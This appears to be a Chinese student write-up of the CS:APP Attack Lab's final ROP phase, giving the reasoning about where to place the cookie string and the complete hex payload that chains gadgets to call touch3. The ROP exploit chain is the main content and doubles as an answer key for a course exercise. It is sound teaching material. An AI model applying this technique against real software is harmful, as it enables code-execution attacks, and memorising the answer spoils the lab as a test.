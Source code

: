 - 本题的一个难点在与如何设计好`cookie`保存的位置,如果`cookie`保存的位置在`%rsp`保存位置的下面,那么调用`touch3`的时候就会导致栈空间损失,所以就会找不到适当的位置,从而引发段错误
- 本题可以使用偏移量来进行最后`cookie`的赋值的
- 最终答案如下(太难想了):
```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */

/* 1. 配置 rsi */
/* 首先使用popq %rax 指令把 %rax 设置为 0x20
   之后利用一系列寄存器操作把 %rax的值赋值给 %rsi */
ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
/* rsp string 偏移为 32 */ 20 00 00 00 00 00 00 00   

dd 19 40 00 00 00 00 00  /* mov eax, edx */
70 1a 40 00 00 00 00 00  /* mov edx, ecx */
ea 19 40 00 00 00 00 00  /* mov ecx, esi */

/* 2. 配置 rdi */
/* 把 %rdi设置为距离 cookie 32个字节位置的开始位置,关注 %rsp 的移动情况 */
06 1a 40 00 00 00 00 00   /* 0x401a06  0x401a03 + 3 mov %rsp,%rax  */ 
/* 从这开始偏移为 0 */ a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 3. 加法运算 将字符串的地址保存进 rax */
/* 找到 cookie 的地址 并且保存在 rax 中 */
d6 19 40 00 00 00 00 00  /* lea    (%rdi,%rsi,1),%rax */

/* 4. 将string address 赋给 rdi */
a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 5. 调用touch3 */ 
fa 18 40 00 00 00 00 00   /* 0x4018fa touch3 */ 

/* 32 */    35 39 62 39 39 37 66 61 
/* 末尾0 */    00 00 00 00 00 00 00 00
```
- 综合答案:
```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00   
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
ea 19 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 
00 00 00 00 00 00 00 00
```